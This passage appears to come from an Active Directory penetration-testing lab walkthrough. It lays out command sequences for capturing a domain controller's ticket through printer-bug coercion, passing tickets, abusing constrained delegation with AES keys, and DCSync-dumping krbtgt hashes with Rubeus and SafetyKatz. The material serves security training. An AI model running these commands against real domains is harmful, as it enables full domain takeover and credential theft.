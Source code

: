 - To get Enterprise Admin privileges, we need to force authentication from mcorp-dc. Run the below command to listern for mcorp-dc$ tickets on dcorp-appsrv:
```
winrs -r:dcorp-appsrv cmd

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:MCORP-DC$ /interval:5 /nowrap
```
- Use MS-RPRN on the student VM to trigger authentication from mcorp-dc to dcorp-appsrv
```
C:\AD\Tools\MS-RPRN.exe \\mcorp-dc.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
- On the Rubeus listener, we can see the TGT of mcorp-dc$:
- As previously, copy the base64 encoded ticket and use it with Rubeus on student VM. Run the below command from an elevated shell as the SafetyKatz command that we will use for DCSync needs to be run from an elevated process:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args ptt /ticket:doIFx...
```
- Now, we can run DCSync from this process:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```


---


# Objective - 16
#### Flag - Value of msds-allowedtodelegate to attribute of dcorp-adminsrv

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth
```
**Abuse Constrained Delegation using websvc with Rubeus**
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```
- Check if the TGS is injected:
```
klist
```
- Try accessing filesystem on dcorp-mssql:
```
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
#### Flag - Alternate service accessed on dcorp-dc by abusing Constrained delegation on dcorp-adminsrv	
- We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine. Run the below command from an elevated command prompt as SafetyKatz, that we will use for DCSync, would need that:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:1f556f9d4e5fcab7f1bf4730180eb1efd0fadd5bb1b5c1e810149f9016a7284d /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
- Run the below command to abuse the LDAP ticket:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
